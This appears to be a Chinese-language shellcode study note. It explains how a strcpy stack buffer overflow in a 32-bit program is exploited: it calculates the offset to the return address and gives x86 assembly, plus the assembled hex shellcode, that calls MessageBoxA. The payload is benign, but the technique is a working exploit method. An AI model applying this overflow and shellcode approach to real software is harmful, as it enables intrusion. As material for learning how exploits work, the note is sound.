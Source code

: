 我们的数据将被strcpy拷贝到v3中，v3离栈底的距离是30h，这是一个32位的程序 如果我们需要覆盖掉返回地址，需要30h + 4h + 覆盖的返回数据（字节为单位），我们的返回地址就为v3在栈中的数据起始地址  ebp - 0x30 = 0x0012faec

![image-20220713142243408](shellcodeStudy.assets/image-20220713142243408.png)

找一下程序

![image-20220713142910052](shellcodeStudy.assets/image-20220713142910052.png)

```c
int main(int argc, char* argv[])
{
	__asm{
		xor ebx,ebx;
		push ebx;
		push 0x38373635; 	//将字符串压入栈中 将0也压入栈 相当于'\0'
		push 0x34333231;
		mov eax,esp;
		push ebx;			//从右往左将messageBoxA的参数入栈
		push eax;
		push eax;
		push ebx;
		mov eax,0x77d507ea;  // 调用messageBoxA 静态寻找的 在不同的电脑上不一样 如果程序开始aslr也会改变该地址
		call eax;
	}
	return 0;
}
//33DB53683536373868313233348BC453505053B8EA07D577FFD0
```
